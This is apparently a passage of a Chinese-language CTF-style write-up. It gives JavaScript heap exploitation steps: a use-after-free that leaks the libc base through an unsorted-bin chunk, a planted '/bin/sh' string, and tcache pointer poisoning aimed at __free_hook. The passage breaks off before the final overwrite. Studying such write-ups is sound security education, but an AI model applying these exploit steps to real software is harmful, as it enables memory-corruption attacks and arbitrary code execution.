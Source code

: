 ```js
    let dv = new DataView(ptr.buffer);
    val = dv.getBigInt64(offset, true);
    return val;
}

```

利用的思路是：

* 先申请大的堆块，然后释放进`unsorted bin`，利用`uaf`漏洞泄露出`libc`地址。

  ```js
  // calloc a big chunk with 0x600
  let leak_ptr = calloc(0x600);
  let read_ptr = calloc(0x600);
  
  // calloc a chunk with /bin/sh string
  let gap = calloc(0x100);
  write64(gap, 0, 0x68732f6e69622fn);
  
  // free big chunk to unsorted_bin
  free(leak_ptr);
  
  // uaf to leak libc address
  read_ptr.set(leak_ptr);
  
  let libc_base = read64(read_ptr, 8) - 0x1ebbe0n;
  console.log("[+] libc base: 0x"+hex(libc_base));
  ```

* 申请小堆块，然后释放进`tcache`，然后利用`uaf`漏洞修改`tcache`的指针指向`free hook`。

  ```js
  // malloc tcache chunk with 0x60
  let evil_ptr = malloc(0x60);
  // malloc another tcache chunk with 0x60
  let evil_ptr1 = malloc(0x60);
  let write_ptr = malloc(0x60);
  // deploy a chunk with free_hook addr content
  write64(write_ptr, 0, free_hook);
  
  // free 0x60 chunk to tcache, tcache count is 1;
  free(evil_ptr1);
  // free evil chunk to tcache, tcache count is 2;
  free(evil_ptr);
  
  // set tcache chunk fd to free_hook addr;
  evil_ptr.set(write_ptr);
  
  // malloc out the first chunk, tcache count is 1;
  let reserved_ptr = malloc(0x60);
  // malloc out free_hook chunk, tcache count is 0;
  let free_hook_ptr = malloc(0x60);
  ```
